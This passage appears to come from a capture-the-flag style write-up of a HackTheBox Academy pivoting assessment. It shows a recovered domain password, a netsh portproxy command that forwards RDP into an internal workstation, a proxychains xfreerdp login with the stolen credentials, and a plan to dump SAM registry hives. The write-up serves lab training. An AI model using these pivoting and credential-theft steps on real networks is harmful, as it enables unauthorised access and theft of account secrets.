 >From the above secrets hash dump we obtained the clear text password of `Imply wet Unmasked!` for the domain Administrator: `INLANEFREIGHT.LOCAL/vfrank`.  

## Window Port Forward Netsh  

>Using `netsh` to forward traffic from windows server to windows 10 workstation for `vfrank` user. 
>[Port Forwarding with Windows Netsh](https://academy.hackthebox.com/module/158/section/1435)  
>In command prompt on the windows server `172.16.5.35`, create a `netsh` port forwarding proxy.  

```
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=172.16.5.35 connectport=3389 connectaddress=172.16.6.25
```  

>On `172.16.5.35` the listen port `8080` will direct traffic to port `3389` for destination target IP address `172.16.6.25`.  

```
proxychains xfreerdp /v:172.16.5.35:8080 /u:vfrank /p:'Imply wet Unmasked!' /d:INLANEFREIGHT.LOCAL /dynamic-resolution /cert:ignore /drive:kali-drive,/home/kali/Downloads/htb/academy/webadmin
```  

![pivot-skills-assessment-netsh](/images/pivot-skills-assessment-netsh.png)  

>Proxychains RDP session Connect as user `vfrank` from kali host.  

## Enumerate Win10 vFrank  

>Discover user `vfrank` is local administrator on the windows 10 workstation.
>Perform SAM attack again and copy save registry hives to kali via RDP tunnel.  
